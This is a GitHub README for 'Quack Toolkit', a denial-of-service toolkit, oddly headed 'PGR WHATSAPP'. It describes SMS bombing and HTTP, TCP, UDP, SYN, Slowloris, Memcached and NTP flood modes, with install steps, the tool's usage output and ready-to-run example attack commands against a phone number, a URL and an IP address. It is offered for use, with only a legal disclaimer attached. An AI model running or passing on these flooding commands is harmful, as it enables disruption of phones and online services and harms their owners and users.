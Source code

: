 # PGR WHATSAPP

![quack](https://user-images.githubusercontent.com/54115104/74247189-c04a9300-4cf6-11ea-982a-2222329215bd.jpeg)

<p align="center">
  <a href="http://entynetproject.simplesite.com/">
    <img src="https://img.shields.io/badge/entynetproject-Ivan%20Nikolsky-blue.svg">
  </a>
  <a href="https://github.com/entynetproject/quack/releases">
    <img src="https://img.shields.io/github/release/entynetproject/quack.svg">
  </a>
  <a href="https://wikipedia.org/wiki/Python_(programming_language)">
    <img src="https://img.shields.io/badge/language-python-blue.svg">
 </a>
  <a href="https://github.com/entynetproject/quack/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues/entynetproject/quack.svg">
  </a>
  <a href="https://github.com/entynetproject/quack/wiki">
      <img src="https://img.shields.io/badge/wiki%20-quack-lightgrey.svg">
 </a>
  <a href="https://twitter.com/entynetproject">
    <img src="https://img.shields.io/badge/twitter-entynetproject-blue.svg">
 </a>
</p>

***

# About Quack Toolkit

```
Quack Toolkit is a set of tools to provide denial 
of service attacks. Quack Toolkit includes SMS attack 
tool, HTTP attack tool and many other attack tools.
```

***

# Getting started

## Quack installation

> cd quack

> chmod +x install.sh

> ./install.sh

## Quack uninstallation

> cd quack

> chmod +x uninstall.sh

> ./uninstall.sh

***

# Quack Toolkit execution

```
To run Quack Toolkit you should 
execute the following command.
```

> quack

```
usage: quack [-h] [--target <ip:port/URL/phone>]
             [--tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]]
             [--timeout <timeout>] [--threads <threads>] [-u] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target <ip:port/URL/phone>
                        Target IP and port, URL or phone.
  --tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]
                        Attack tool.
  --timeout <timeout>   Timeout in seconds.
  --threads <threads>   Threads count.
  -u, --update          Update Quack Toolkit.
  --version             Show Quack Toolkit version.
```

***
  
# Quack Toolkit examples

## Example of the SMS attack
    
> quack --tool SMS --target 15554443333 --timeout 10 --threads 10
    
## Example of the HTTP attack

> quack --tool HTTP --target http://<span></span>example.com/ --timeout 10 --threads 10
    
## Example of the TCP attack

> quack --tool TCP --target 192.168.1.100:80 --timeout 10 --threads 10

***

# Quack Toolkit disclaimer

```
Usage of the Quack Toolkit for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, federal, and international laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
```

***

# Quack Toolkit license

```
MIT License

Copyright (C) 2020, Entynetproject. All Rights Reserved.

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```
